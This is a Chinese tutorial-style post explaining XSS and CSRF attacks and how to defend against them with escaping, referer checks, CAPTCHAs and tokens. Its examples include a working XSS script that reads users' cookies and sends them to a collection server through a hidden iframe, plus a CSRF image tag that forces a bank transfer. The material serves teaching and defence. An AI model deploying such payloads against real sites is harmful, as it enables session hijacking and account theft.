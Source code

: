 ```yaml
---
title: 前端安全：XSS与CSRF
tags: [http]
categories: http
---
```

>整理自:
[详解XSS与CSRF两种跨站攻击](http://www.zyy1217.com/2017/04/22/%E8%AF%A6%E8%A7%A3XSS%E4%B8%8ECSRF%E4%B8%A4%E7%A7%8D%E8%B7%A8%E7%AB%99%E6%94%BB%E5%87%BB/)
[总结 XSS 与 CSRF 两种跨站攻击](https://segmentfault.com/a/1190000004623125)



## XSS跨站脚本（Cross-site scripting，通常简称为XSS）

### 原理

XSS 全称“跨站脚本”，是注入攻击的一种。其特点是不对服务器端造成任何伤害，而是通过一些正常的站内交互途径，例如发布评论，提交含有 JavaScript 的内容文本。这时服务器端如果没有过滤或转义掉这些脚本，作为内容发布到了页面上，其他用户访问这个页面的时候就会运行这些脚本。

### 举例：

假设xx贴吧存在这个漏洞，我打开一个帖子回复：

```js
// 用<script type="text/javascript"></script>包起来
while (true) {
    alert('hello,xss');
}
```
然后这条回复就发出去啦，当其他用户点进这个帖子，这段代码就会被执行，然后一直alert，这就是最原始的脚本注入。

那XSS跨站脚本也很容易理解了，注入一个可以跨站的脚本即可：

```js
// 用 <script type="text/javascript"></script> 包起来放在评论中
(function(window, document) {
    // 构造泄露信息用的 URL
    var cookies = document.cookie;
    var xssURIBase = "http://192.168.123.123/myxss/";
    var xssURI = xssURIBase + window.encodeURI(cookies);
    // 建立隐藏 iframe 用于通讯
    var hideFrame = document.createElement("iframe");
    hideFrame.height = 0;
    hideFrame.width = 0;
    hideFrame.style.display = "none";
    hideFrame.src = xssURI;
    // 开工
    document.body.appendChild(hideFrame);
})(window, document);
```

这时候，用户点进帖子，这段代码开始运行，他们并不知道自己的信息（cookie）已经被iframe跨域的方式送到收集服务器上，然后我们就可以用cookie中的隐私信息做很多很多事情啦。

### 如何防御XSS攻击

我们知道AJAX技术所使用的XMLHttpRequest对象都被浏览器做了限制，只能访问当前域名下的 URL，所谓不能“跨域”问题。这种做法的初衷也是防范XSS，多多少少都起了一些作用，但不是总是有用，正如上面的注入代码，用iframe也一样可以达到相同的目的。甚至在愿意的情况下，我还能用iframe发起POST请求。当然，现在一些浏览器能够很智能地分析出部分 XSS 并予以拦截，例如新版的 Firefox、Chrome 都能这么做。但拦截不总是能成功，何况这个世界上还有大量根本不知道什么是浏览器的用户在用着可怕的IE6。从原则上将，我们也不应该把事关安全性的责任推脱给浏览器，所以防止XSS的根本之道还是过滤用户输入。用户输入总是不可信任的，这点对于 Web 开发者应该是常识。

正如上文所说，如果我们不需要用户输入HTML而只想让他们输入纯文本，那么把所有用户输入进行 HTML 转义输出是个不错的做法。

## CSRF跨站请求伪造（ross-site request forgery）

跨站请求攻击，简单地说，是攻击者通过一些技术手段欺骗用户的浏览器去访问一个自己曾经认证过的网站并执行一些操作（如发邮件，发消息，甚至财产操作如转账和购买商品）。由于浏览器曾经认证过，所以被访问的网站会认为是真正的用户操作而去执行。这利用了web中用户身份验证的一个漏洞：简单的身份验证只能保证请求发自某个用户的浏览器，却不能保证请求本身是用户自愿发出的。

你这可以这么理解CSRF攻击：攻击者盗用了你的身份，以你的名义发送恶意请求。CSRF能够做的事情包括：以你名义发送邮件，发消息，盗取你的账号，甚至于购买商品，虚拟货币转账……造成的问题包括：个人隐私泄露以及财产安全。

严格意义上来说，CSRF 不能分类为注入攻击，因为 CSRF 的实现途径远远不止 XSS 注入这一条。通过XSS来实现CSRF易如反掌，但对于设计不佳的网站，一条正常的链接都能造成 CSRF。

### 原理

![csrf.jpg](http://upload-images.jianshu.io/upload_images/4869616-3449f27f48a1a9c5.jpg?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

从上图可以看出，要完成一次CSRF攻击，受害者必须依次完成两个步骤：

1. 登录受信任网站A，并在本地生成Cookie。
2. 在不登出A的情况下，访问危险网站B。

### 举例

1. 你登录银行网站A，银行网站A违反了HTTP规范，使用GET请求更新资源。这就存在了csrf漏洞。
2. 你访问危险网站B，B中有一段代码
```js
<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
```
3. 你发现你的账户少了1000元

为什么会这样呢？原因是银行网站A违反了HTTP规范，使用GET请求更新资源。在访问危险网站B的之前，你已经登录了银行网站A，而B中的以GET的方式请求第三方资源（这里的第三方就是指银行网站了，原本这是一个合法的请求，但这里被不法分子利用了），所以你的浏览器会带上你的银行网站A的Cookie发出Get请求，去获取资源http://www.mybank.com/Transfer.php?toBankId=11&money=1000 ，结果银行网站服务器收到请求后，认为这是一个更新资源操作（转账操作），所以就立刻进行转账操作。

### 如何防御CSRF攻击

1. 通过 referer 判定来源页面
    referer是在HTTP Request Head里面的，也就是由请求的发送者决定的。如果我喜欢，可以给 referer任何值。当然这个做法并不是毫无作用，起码可以防小白。

2. 使用验证码
    在表单中增加一个随机的数字或字母验证码，通过强制用户和应用进行交互，来有效地遏制CSRF攻击。

3. token验证
    * 在 HTTP 请求中以参数的形式加入一个随机产生的token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有token或者token内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。

    * token需要足够随机

    * 敏感的操作应该使用POST，而不是GET，以form表单的形式提交，可以避免token泄露。

4. 在 HTTP 头中自定义属性并验证
    这种方法也是使用 token 并进行验证，这里并不是把 token 以参数的形式置于 HTTP 请求之中，而是把它放到HTTP头中自定义的属性里。通过 XMLHttpRequest这个类，可以一次性给所有该类请求加上csrftoken这个HTTP头属性，并把 token 值放入其中。这样解决了上种方法在请求中加入 token 的不便，同时，通过 XMLHttpRequest 请求的地址不会被记录到浏览器的地址栏，也不用担心 token 会透过 Referer 泄露到其他网站中去。

    我的理解：WebB并没有获取你的cookie，而只是伪造用户发起http请求，浏览器自动带上cookie而已，token存放在cookie中，即使cookie发送至服务端，我们每一次接受请求验证的并不是cookie，而是header中的token，WebB就无能为力了。


## XSS与CSRF的区别

CSRF 和 XSS 根本是两个不同维度上的分类。XSS是实现CSRF的诸多途径中的一条，但绝对不是唯一的一条。一般习惯上把通过 XSS 来实现的 CSRF 称为 XSRF。

可以通过跨站脚本注入XSS获取用户的信息，获得用户信息过后可以做诸多的事情，但是CSRF只能模拟用户行为，

CSRF 的全称是“跨站请求伪造”，而 XSS 的全称是“跨站脚本”。看起来有点相似，它们都是属于跨站攻击——不攻击服务器端而攻击正常访问网站的用户，但前面说了，它们的攻击类型是不同维度上的分类。CSRF顾名思义，是伪造请求，冒充用户在站内的正常操作。我们知道，绝大多数网站是通过 cookie 等方式辨识用户身份（包括使用服务器端 Session 的网站，因为 Session ID 也是大多保存在cookie里面的），再予以授权的。所以要伪造用户的正常操作，最好的方法是通过 XSS或链接欺骗等途径，让用户在本机（即拥有身份 cookie 的浏览器端）发起用户所不知道的请求。






